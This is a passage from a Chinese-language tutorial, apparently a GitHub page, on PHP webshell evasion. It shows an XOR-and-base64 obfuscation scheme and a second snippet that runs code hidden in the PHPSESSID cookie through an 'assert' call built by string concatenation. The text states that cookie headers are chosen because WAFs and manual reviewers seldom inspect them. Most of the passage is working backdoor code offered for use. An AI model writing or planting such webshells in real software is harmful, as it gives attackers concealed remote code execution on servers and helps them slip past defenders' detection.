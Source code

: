 ### 自己写加密算法

这种方式也比较简单，在很多ctf题目中都喜欢考与，或，取反，异或等进行绕过，其中可以直接用他们进行加密操作，当然如果学过密码学，一些简单的加密方式其实也行，凯莎密码，维吉尼亚密码，替换加密等都是可以尝试的，但是更复杂的算法还是建议，能使用现成的扩展就直接用，没必要花太多时间去研究这些算法。

下面就以**异或加密**为例：

```php
<?php
$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
echo $fun; // phpinfo()
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
```

<img src=".\图片\Snipaste_2023-04-26_14-50-52.png" alt="Snipaste_2023-04-26_14-50-52" style="zoom:80%;" />



## 传参方式

在这里解释一下为什么，需要讲述传参方式，由于在很多情况下，以请求头作为参数传递并非waf和人工排查的重中之重且非常误导和隐藏，下面就是常用的几种方式：

### 1.Cookie

由于Cookie基本上是每个web应用都需要使用到的，php应用在默认情况下，在Cookies请求头中会存在一个PHPSESSID=xxxx这样的cookie，其实这个就可以成为我们的传参位置

```php
<?php
session_start();
$a = "a";
$s = "s";
$c=$a.$s."sert";

$c(base64_decode($_COOKIE["PHPSESSID"]));
```
